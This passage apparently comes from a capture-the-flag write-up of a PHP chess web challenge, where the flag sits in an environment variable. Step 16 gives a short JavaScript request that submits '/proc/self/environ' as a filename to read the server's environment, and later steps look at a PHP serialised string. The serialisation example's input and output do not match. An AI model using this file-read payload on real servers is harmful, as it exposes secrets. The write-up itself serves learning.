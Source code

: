We then noticed the success condition and that the value of the flag is stored as an environmental variable.
```
    echo $output->render($chess);
    if ($chess->inCheckmate()) {
        if ($chess->turn != "b") {
            echo '<h1>You lost! Game Over!</h1>';
        } else {
            echo "<h1>ZOMG How did you defeat my AI :(. You definitely cheated. Here's your flag: ". getenv('REDIRECT_FLAG') . "</h1>";
        }
    }
```

## Step 16
Since we knew from Step 11 that the server is running Ubntu with Apache and one of the group suggested retrieveving the environment variable file. This is possible since in Ubuntu everything is a file.
```
  const url = "."
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', '/proc/self/environ')

  xhr.open('POST', url, true)
  xhr.send(formData);

xhr.response
```
The run returns `500` status code and the content of the environment variables in the response including the `REDIRECT_FLAG`. 

## Step 17
We visited the URL listed in the `REDIRECT_FLAG` and the challenge got marked as completed. 🎉

# Alternative 2 
We still believe there would be a way to exploit the html comment and get the flag that way. See `Step 14`.

## Step 18
We realised that the base64 decoded string is a serialised version of php code. Discovered using [W3Schools](https://www.w3schools.com/php/func_var_unserialize.asp)
e.g.
```
a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}
```
is
```
array(2) { [0]=> string(2) "d2" [1]=> string(2) "d3" }
```
